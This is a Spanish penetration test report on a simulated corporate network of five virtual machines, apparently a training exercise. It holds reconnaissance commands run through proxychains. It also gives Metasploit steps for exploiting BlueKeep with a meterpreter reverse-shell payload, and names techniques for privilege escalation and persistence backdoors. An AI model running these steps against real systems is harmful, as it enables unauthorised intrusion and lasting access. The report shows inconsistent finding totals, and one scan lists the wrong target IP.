# Informe de Pruebas de Penetración - CyberSecPro S.A.

*   **por:** Félix Sánchez González (Secure Shield Pentesting S.L.)
*   **Fecha del Informe:** 2025-05-05
*   **Periodo de Evaluación:** 2025-05-02 - 2025-05-05

* [Enlace a acuerdo de pentesting](Acuerdo%20de%20Pentesting.md)


---

## Índice

1.  [Introducción](#1-introducción)
    *   1.1 [Objetivos](#11-objetivos)
    *   1.2 [Alcance](#12-alcance)
    *   1.3 [Límites o Rules of Engagement (ROE)](#13-límites-o-rules-of-engagement-roe)
    *   1.4 [Metodología](#14-metodología)
2.  [Descargo de responsabilidad](#2-descargo-de-responsabilidad)
3.  [Información de contacto](#3-información-de-contacto)
4.  [Indice de Gravedad](#4-indice-de-gravedad)
5.  [Resumen Ejecutivo y Hallazgos](#5-resumen-ejecutivo-y-hallazgos) 
    *   5.1 [Resumen Ejecutivo](#51-resumen-ejecutivo)
    *   5.2 [Hallazgos Principales](#52-hallazgos-principales)
    *   5.3 [Perfil de Riesgo](#53-perfil-de-riesgo)
6.  [Reconocimiento](#6-reconocimiento)
    *   6.1 [PC1 (Win7) - Exterior y Red interna 1](#61-pc1-win7---exterior-y-red-interna-1)
    *   6.2 [PC2 (Symfonos) - Red interna 1 y 2](#62-pc2-symfonos---red-interna-1-y-2)
    *   6.3 [PC3 (Durian) - Red Interna 2](#63-pc3-durian---red-interna-2)
    *   6.4 [PC4 (Solstice) - Red Interna 1 y 3](#64-pc4-solstice---red-interna-1-y-3)
    *   6.5 [PC5 (Corrosion) - Red Interna 3](#65-pc5-corrosion---red-interna-3)
7.  [Explotación: Vulnerabilidades](#7explotación-vulnerabilidades)
    *   7.1 [Vulnerabilidades Identificadas en PC1 (W7)](#71-vulnerabilidades-identificadas-en-pc1-w7)
    *   7.2 [Vulnerabilidades Identificadas en PC2 (Symfonos)](#72-vulnerabilidades-identificadas-en-pc2-symfonos)
    *   7.3 [Vulnerabilidades Identificadas en PC3 (Durian)](#73-vulnerabilidades-identificadas-en-pc3-durian)
    *   7.4 [Vulnerabilidades Identificadas en PC4 (Solstice)](#74-vulnerabilidades-identificadas-en-pc4-solstice)
    *   7.5 [Vulnerabilidades Identificadas en PC5 (Corrosion)](#75-vulnerabilidades-identificadas-en-pc5-corrosion)
8.  [Resumen de Vulnerabilidades](#8-resumen-de-vulnerabilidades)
9.  [Narrativa del Ataque](#9-narrativa-del-ataque)
    *   9.1 [Acceso Inicial Externo (PC1)](#91-acceso-inicial-externo-pc1)
    *   9.2 [Persistencia y Pivoting Inicial (Desde PC1)](#92-persistencia-y-pivoting-inicial-desde-pc1)
    *   9.3 [Compromiso de la Primera Red Interna (PC2 - Symfonos)](#93-compromiso-de-la-primera-red-interna-pc2---symfonos)
    *   9.4 [Pivoting Secundario y Compromiso Red 2 (PC3 - Durian)](#94-pivoting-secundario-y-compromiso-red-2-pc3---durian)
    *   9.5 [Compromiso Red 3 (PC4 - Solstice y PC5 - Corrosion)](#95-compromiso-red-3-pc4---solstice-y-pc5---corrosion)
    *   9.6 [Establecimiento de Persistencia Adicional](#96-establecimiento-de-persistencia-adicional)
10. [Recomendaciones Generales de Seguridad](#10-recomendaciones-generales-de-seguridad)
11. [Conclusión](#11-conclusión)


---

## 1. Introducción

Este informe recoge los resultados de una prueba de penetración realizada sobre un entorno simulado que representa la infraestructura de la empresa CyberSecPro S.A. El objetivo principal ha sido evaluar la seguridad desde la perspectiva de un atacante externo, enfocándose en la explotación de vulnerabilidades, la escalada de privilegios, el movimiento lateral entre segmentos de red y el establecimiento de persistencia, siguiendo las fases de post-explotación críticas.

La prueba se desarrolló en un entorno controlado utilizando máquinas virtuales configuradas simulando la arquitectura de red de CyberSecPro S.A. Las acciones se ajustaron a los límites definidos en el acuerdo de alcance y reglas de compromiso.

### 1.1 Objetivos

Los objetivos específicos de esta prueba de penetración, alineados con el Proyecto 7, fueron:

*   **Administrar sistemas remotos** utilizando herramientas de línea de comandos. 
*   **Comprometer contraseñas** utilizando técnicas de ataque como diccionarios y fuerza bruta sobre hashes o servicios. 
*   **Acceder a sistemas adicionales** a través de los ya comprometidos, empleando técnicas de pivoting y movimiento lateral. 
*   **Instalar puertas traseras (persistencia)** para garantizar el acceso futuro a los sistemas comprometidos. 
*   Obtener acceso inicial a un sistema expuesto (PC1 - [192.168.1.108]).
*   Escalar privilegios hasta nivel de administrador (SYSTEM/root) en los sistemas comprometidos.
*   Documentar las vulnerabilidades explotadas y simular el movimiento completo de un atacante dentro de la red empresarial simulada.

### 1.2 Alcance

La prueba se centró en los siguientes sistemas y rangos de red:

*   **Host Externo Objetivo Inicial:** PC1 (Win7)  192.168.1.108
*   **Red Interna 1:** 10.10.10.0/24 (Conteniendo: PC1(w7)- PC2 (Symfonos)- PC4 (Solstice) )
*   **Red Interna 2:** 10.10.20.0/24 (Conteniendo PC2 (Symfonos), PC3 (Durian))
*   **Red Interna 3:** 10.10.30.0/24 (Conteniendo PC4 (Solstice)  PC5 (Corrosion) )
*   **Sistemas Objetivo:** PC1 (Win7) 192.168.1.108, PC2 (Symfonos) 10.10.10.5, PC3 (Durian) 10.10.20.3, PC4 (Solstice) 10.10.10.4, PC5 (Corrosion) 10.10.30.5.

**Fuera del Alcance:**

*   Phishing o ingeniería social.
*   Pruebas destructivas o ataques de Denegación de Servicio (DoS).
*   Sistemas fuera del entorno simulado proporcionado.
*   Modificaciones en el entorno sin consentimiento (implícito en el entorno controlado).

### 1.3 Límites o Rules of Engagement (ROE)

*   Los escaneos y pruebas de penetración se realizaron respetando el horario indicado. (19:00 viernes 2 mayo - 14:00 lunes 5 de mayo)
*   No se alteró la configuración fundamental de los sistemas más allá de lo necesario para la explotación y persistencia simulada.
*   No se comprometió información real ni servicios de terceros.
*   Todas las modificaciones realizadas serán documentadas y revertidas al finalizar.
*   Los datos sensibles descubiertos solo se utilizarán si está explícitamente permitido.
*   La información confidencial será enmascarada/anonimizada en el informe final.
*   Todos los datos recopilados serán encriptados y destruidos tras la aceptación del informe, según lo acordado.

**Protección del Equipo Evaluador**
*   El contrato/declaración de trabajo confirma que las acciones se ejecutan en nombre del cliente.
*   Se revisaron las políticas de seguridad relevantes del cliente.
*   Se verificaron las regulaciones aplicables a los datos del cliente ([GDPR, HIPAA, etc.]).
*   Se acordó un protocolo de actuación en caso de detectar compromiso por terceros.

### 1.4 Metodología

La prueba de penetración siguió una metodología basada en el estándar PTES (Penetration Testing Execution Standard), adaptada a los objetivos del proyecto:

1.  **Reconocimiento (Intelligence Gathering & Vulnerability Analysis):** Escaneo de puertos y servicios (Nmap, Nessus), identificación de versiones, enumeración de recursos (enum4linux, smbclient, gobuster, WPScan).
2.  **Explotación (Exploitation):** Aprovechamiento de vulnerabilidades identificadas para obtener acceso inicial (Metasploit, scripts personalizados, técnicas manuales).
3.  **Post-Explotación (Post-Exploitation):**
    *   *Escalada de Privilegios:* Obtención de permisos elevados (SYSTEM/root) mediante explotación de configuraciones inseguras (SUID, sudo, Capabilities) o vulnerabilidades locales.
    *   *Reconocimiento Interno:* Mapeo de redes internas desde sistemas comprometidos.
    *   *Movimiento Lateral (Pivoting):* Uso de sistemas comprometidos para acceder a otros segmentos de red (Proxychains, SSH tunneling, Metasploit pivoting).
    *   *Compromiso de Credenciales:* Extracción y cracking de hashes (John the Ripper, fcrackzip), reutilización de contraseñas.
    *   *Establecimiento de Persistencia:* Creación de backdoors para mantener el acceso (Cronjobs, claves SSH, servicios, usuarios ocultos).
4.  **Reporte (Reporting):** Documentación detallada de hallazgos, vulnerabilidades, pasos de explotación, impacto y recomendaciones.

---


## 2. Descargo de responsabilidad

Este informe ha sido elaborado con base en la evaluación de seguridad realizada sobre los sistemas especificados por `CyberSecPro S.A`. Los hallazgos, conclusiones y recomendaciones presentadas reflejan las condiciones observadas en el momento de la evaluación *03/05/2025 - 05/05/2025*. ***SECURE SHIELD PENTESTING S.L.*** no se hace responsable por cualquier uso indebido, interpretación errónea o acción que se derive de la información contenida en este informe. La organización auditada es responsable de evaluar y tomar las medidas que considere necesarias para mitigar los riesgos identificados. La seguridad es un proceso continuo y este informe representa una instantánea en el tiempo.

---

## 3. Información de contacto

| Campo             | Detalle                                         |
| :---------------- | :---------------------------------------------- |
| **Empresa**         | Secure Shield S.L.                                       |
| **Dirección**     | C. Amiel, s/n, 11012 Barriada de la Paz, Cádiz |
| **Contacto Ppal** | Félix Sánchez González                                        |
| **Email**         | contacto@secureshield.com                                |
| **Teléfono**      | +34 999 99 99 99                                |


## 4 Indice de Gravedad

| **Gravedad** | **CVSS / Puntuación** | **Definición** |
| :---: | :---: | :---: |
| Crítica  🟥 | 9.0 - 10.0 | Vulnerabilidad fácil de explotar, que puede dañar gravemente los datos o la estructura de la empresa, exponiendo información sensible. Se necesita una actuación inmediata. |
| Alta 🟧 | 7.0 - 8.9 | Vulnerabilidad que puede producir un impacto grave en la empresa pero su explotación es algo más compleja. Debe solucionarse lo antes posible. |
| Moderada 🟨 | 5.0 - 6.9 | Vulnerabilidad que no puede ser explotada o que tiene una gran complejidad. Solucionar cuando no haya vulnerabilidades de una gravedad superior. |
| Baja 🟩 | 1.0 - 4.9 | Vulnerabilidad que no puede ser explotada pero que es recomendable mitigar. No se necesita actuación a corto plazo pero a tener en cuenta en futuros parches que se vayan a aplicar. |
| Informacional ℹ️ | N/A | No existe una vulnerabilidad. Información adicional que se ha encontrado durante el análisis para que pueda tenerse en cuenta. **No suele mencionarse en el informe de auditoria pero se pueden observar en los informes de escaneos** |

---

## 5.1 Resumen Ejecutivo

Durante la prueba de penetración realizada sobre el entorno simulado de CyberSecPro S.A., el auditor (Félix) identificó y explotó con éxito múltiples vulnerabilidades críticas en los sistemas objetivo (PC1 a PC5). Partiendo de un acceso inicial al sistema expuesto externamente (PC1) mediante la vulnerabilidad BlueKeep (CVE-2019-0708), se obtuvo control administrativo (SYSTEM).

Desde este punto, se establecieron técnicas de pivoting para acceder a los segmentos de red internos (10.10.10.0/24, 10.10.20.0/24, 10.10.30.0/24). Se comprometieron sucesivamente los sistemas PC2, PC3, PC4 y PC5, explotando una variedad de vulnerabilidades que incluían Inclusión Local de Ficheros (LFI), Log Poisoning, configuraciones inseguras de SUID y Capacidades Linux, exposición de backups con credenciales, y configuraciones débiles de sudo.

En cada sistema comprometido, se logró escalar privilegios hasta el nivel de administrador (root). Se demostró el compromiso de contraseñas mediante cracking de hashes y reutilización. Finalmente se establecieron mecanismos de persistencia (backdoors) en los sistemas.

**Los hallazgos demuestran un riesgo crítico para la confidencialidad, integridad y disponibilidad de los sistemas y datos de CyberSecPro S.A.** Un atacante real podría replicar esta cadena de ataques para obtener control total sobre la infraestructura evaluada. Se requiere la implementación urgente de las recomendaciones detalladas en la Sección 9 para mitigar los riesgos identificados.


---

### 5.2 Hallazgos Principales

Los hallazgos de mayor impacto que permitieron la cadena de compromiso completa y contribuyen al perfil de riesgo crítico incluyen:

1.  **Ejecución Remota de Código (RCE) Inicial:** La vulnerabilidad `BlueKeep` (`CVE-2019-0708`) en `PC1` permitió el acceso inicial desde el exterior.
2.  **Vulnerabilidades Web Explotables:** Múltiples instancias de Inclusión Local de Ficheros (LFI), combinadas con Log Poisoning o Inyección de Cabeceras, permitieron obtener shells iniciales en `PC2`, `PC3` y `PC4`. La carga de archivos sin restricciones en Tomcat Manager permitió RCE en `PC5`.
3.  **Escalada de Privilegios Múltiple y Sencilla:** Se explotaron diversas técnicas para obtener privilegios `root`/`SYSTEM` en todas las máquinas: `BlueKeep` (`PC1`), PATH Hijacking de binarios `SUID` (`PC2`), Capacidades Linux en `gdb` (`PC3`), servicio local inseguro con archivo modificable (`PC4`), y configuración `sudo` vulnerable a secuestro de librería (`PC5`).
4.  **Exposición y Compromiso de Credenciales:** Se obtuvieron credenciales del manager de Tomcat desde un backup expuesto (`PC5`), se leyeron hashes de `/etc/shadow` mediante una herramienta local insegura (`PC5`), y se crackearon contraseñas débiles (`PC5`). Se observó reutilización de contraseñas (`PC5`).
5.  **Software Obsoleto:** La presencia de Windows 7 sin parches (`PC1`) y versiones vulnerables de Tomcat y PHP (detectadas por Nessus en `PC5` y `PC3`) fueron factores clave.
6.  **Movimiento Lateral Exitoso:** La falta de segmentación efectiva y controles de red permitió el uso de técnicas de `pivoting` (`Chisel`, `proxychains`) para moverse entre los segmentos `10.10.10.0/24`, `10.10.20.0/24` y `10.10.30.0/24`.


---

### 5.3 Perfil de Riesgo

El entorno evaluado presenta un perfil de riesgo general **CRÍTICO**. Esta evaluación se fundamenta principalmente en las **múltiples vulnerabilidades críticas confirmadas y explotadas manualmente** durante la prueba, las cuales permitieron el compromiso total de todos los sistemas y segmentos de red evaluados.

Para proporcionar un contexto adicional, se presentan a continuación los resultados agregados de los escaneos automatizados con Nessus (que cubren `PC2`, `PC3`, `PC4` y `PC5`), seguidos por el resumen de las vulnerabilidades validadas manualmente en todo el alcance (`PC1` a `PC5`).

**Resultados Agregados del Escaneo Automatizado (Nessus - PC2, PC3, PC4, PC5):**

Los escaneos automatizados con Nessus identificaron un total de **217 hallazgos potenciales** distribuidos de la siguiente manera en las cuatro máquinas escaneadas (`PC1` a `PC5`):

| Nivel de Riesgo (Nessus) | Total Agregado (Escaneo) | Representación Visual (Proporcional Aprox.) |
| :----------------------- | :----------------------- | :------------------------------------------ |
| 🟥 Crítico               | 5                        | ▓▓                                           |
| 🟧 Alto                  | 12                       |▓▓▓▓▓▓                                         |
| 🟨 Medio                 | 26                       | ▓▓▓▓▓▓▓▓▓▓▓                                       |
| 🟩 Bajo                   | 5                        | ▓▓                                            |
| **Total (Nessus)**       | **48**                  |                                             |

*Nota: Estos números representan el resultado bruto del escáner Nessus en las máquinas `PC1` a `PC5` y pueden incluir hallazgos que no fueron validados manualmente o que tienen un impacto real menor en el contexto específico del ataque simulado. Los informes detallados de Nessus por máquina se pueden descargar aquí:*
s
*   [Informe Nessus - PC1-Win7](Explotaciones/PC1/InformeNessus/PC-1.pdf)
*   [Informe Nessus - PC2-Symfonos](Explotaciones/PC2/InformeNessus/PC-2.pdf)
*   [Informe Nessus - PC3-Durian ](Explotaciones/PC3/InformeNessus/PC-3.pdf)
*   [Informe Nessus - PC4-Solstice ](Explotaciones/PC4/InformeNessus/PC-4.pdf)
*   [Informe Nessus - PC5-Corrosion ](Explotaciones/PC5/InformeNessus/PC-5.pdf)

---

**Vulnerabilidades Validadas y/o Explotadas Manualmente (PC1 a PC5):**

Durante la prueba de penetración manual, el equipo auditor **validó y/o explotó con éxito 11 vulnerabilidades significativas** en los cinco sistemas objetivo. Estas representan el riesgo **confirmado y demostrado**, sirviendo como base principal para la evaluación de riesgo CRÍTICO de este informe y se detallan en las secciones 6, 7 y 8:

| Nivel de Riesgo (Validado) | Total Validado/Explotado | Representación Visual (Proporcional Aprox.) |
| :------------------------- | :----------------------- | :------------------------------------------ |
| 🟥 Crítico                 | 9                        | ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓                           |
| 🟧 Alto                    | 1                        | ▓▓                                          |
| 🟨 Medio                   | 1                        | ▓                                           |
| 🟩 Bajo                    | 0                        |                                             |
| **Total (Validado)**       | **11**                   |                                             |

---


---

## 6. Reconocimiento

Se realizaron escaneo sobre los sistemas objetivo utilizando Nmap y otras herramientas de enumeración. A continuación, se resumen los hallazgos iniciales más relevantes para cada sistema.

### 6.1 PC1 (Win7) - Exterior y Red interna 1

*   **Escaneo Nmap:**
    ```bash
    sudo nmap -sV -A -T4 192.168.1.108
    ```
    *   **Resultado:** Puerto 3389/tcp abierto (Servicio RDP - Remote Desktop Protocol). Sistema Operativo identificado como Windows [Versión, ej: Windows 7].


      
        

*   **Escaneo de Vulnerabilidad (BlueKeep):**
    *   Se utilizó el módulo `auxiliary/scanner/rdp/cve_2019_0708_bluekeep` de Metasploit.
    *   **Resultado:** El objetivo 192.168.1.108:3389 fue identificado como vulnerable a BlueKeep (CVE-2019-0708).
      
      
        

### 6.2 PC2 (Symfonos) - Red interna 1 y 2

*   **Escaneo Nmap (vía Pivote):**
    ```bash
    proxychains nmap -sS -sV -p- sym
    ```
    *   **Resultado:** Puertos 22/tcp (SSH), 25/tcp (SMTP/Postfix), 80/tcp (HTTP/Apache), 139/tcp y 445/tcp (NetBIOS/Samba).
      
        

*   **Enumeración Samba (`enum4linux` / `smbclient`):**
    *   Se identificaron recursos compartidos (`anonymous`, `helios`, `print$`) y usuarios (`helios`).
    *   Acceso anónimo al recurso `anonymous` reveló el archivo `attention.txt`.
    *   Acceso al recurso `helios` (usando credenciales encontradas) reveló `research.txt` y `todo.txt`.

        
        
        

*   **Escaneo Web (`WPScan`):**
    *   Se identificó una instalación de WordPress en `http://10.10.10.5/h3l105/`.
    *   Se identificó el plugin 'Mail Masta' versión 1.0.
      
      
        

### 6.3 PC3 (Durian) - Red Interna 2

*   **Escaneo Nmap (vía Pivote):**
    ```bash
    proxychains nmap -p- 10.10.20.3
    ```
    *   **Resultado:** Puertos 22/tcp (SSH), 80/tcp (HTTP/Apache 2.4.38), 7080, 8000, 8088.
      
        

*   **Enumeración Web (`gobuster`):**
    ```bash
    proxychains gobuster dir -u http://10.10.20.3 -w /usr/share/wordlists/dirb/common.txt
    ```
    *   Se identificaron los directorios `/blog` y `/cgi-data`.   
      
        

### 6.4 PC4 (Solstice) - Red Interna 1 y 3 

*   **Escaneo Nmap (vía Pivote):**
    ```bash
    proxychains nmap -sV -p- 10.10.20.3
    ```
    *   **Resultado :** Puertos 21, 22, 25, 80, 139, 445, 3128 (Squid Proxy), 8593 (HTTP PHP CLI), 62524 (FTP).
    *   
      
        

*   **Inspección Manual Puerto 8593:**
    *   Navegar a `http://10.10.20.3:8593/` reveló una aplicación simple en php que permitía un **path traversal** con el parametro 'book' .
    [soltice path traversal](Explotaciones/PC4/PC4img/image-36.png)

### 6.5 PC5 (Corrosion) - Red Interna 3

*   **Escaneo Nmap (vía Pivote):**
    ```bash
    proxychains nmap -sV 10.10.30.5
    ```
    *   **Resultado :** Puertos 22/tcp (SSH), 80/tcp (Apache), 8080/tcp (Apache Tomcat 9.0.53).
 
      
        

*   **Enumeración Web (`dirb` / `gobuster`):**
    ```bash
    proxychains dirb http://10.10.30.5:8080/ -X .php,.zip
    ```
    *   Se identificó el archivo `http://10.10.30.5:8080/backup.zip`.
      
        

---

## 7.Explotación: Vulnerabilidades

A continuación, se detallan las vulnerabilidades explotadas en cada sistema objetivo.

### 7.1 Vulnerabilidades Identificadas en PC1 (W7)

**Vulnerabilidad PC1-1: Microsoft Windows RDP Remote Code Execution (BlueKeep - CVE-2019-0708)**

*   **Identificación:**
    *   **Puerto(s) / Servicio(s):** 3389/tcp - RDP (Microsoft Terminal Services)
    *   **Herramienta(s) de Detección:** Nmap, Metasploit (`auxiliary/scanner/rdp/cve_2019_0708_bluekeep`)
    *   **Descripción Breve:** Vulnerabilidad de ejecución remota de código pre-autenticación en el servicio RDP que afecta a versiones antiguas de Windows. Permite a un atacante no autenticado ejecutar código arbitrario con privilegios SYSTEM.
*   **Descripción Técnica:**
    *   **Tipo:** Remote Code Execution (RCE)
    *   **CWE:** CWE-120 (Buffer Copy without Checking Size of Input - Classic Buffer Overflow)
    *   **Gravedad:** Crítica (CVSS 9.8)
    *   **Vector de Ataque:** Remoto
    *   **Requiere Autenticación:** No
    *   **Impacto Potencial:** Compromiso total del sistema con privilegios SYSTEM.
    *   **Componente(s):** Servicio `termdd.sys` (RDP) en Windows [Versión, ej: 7/Server 2008 R2] sin parches.
*   **Explotación:**
    *   **Pasos:**
        1.  Configurar el módulo de Metasploit `exploit/windows/rdp/cve_2019_0708_bluekeep_rce`.
        2.  Establecer `RHOSTS` a [192.168.1.108], `RPORT` a 3389.
        3.  Configurar un payload (ej: `windows/x64/meterpreter/reverse_tcp`).
        4.  Establecer `LHOST` (IP atacante) y `LPORT` (puerto escucha).
        5.  Verificar opciones (`VERIFY_TARGET`, `VERIFY_ARCH`, `TARGET`).
        6.  Ejecutar `exploit -j`.
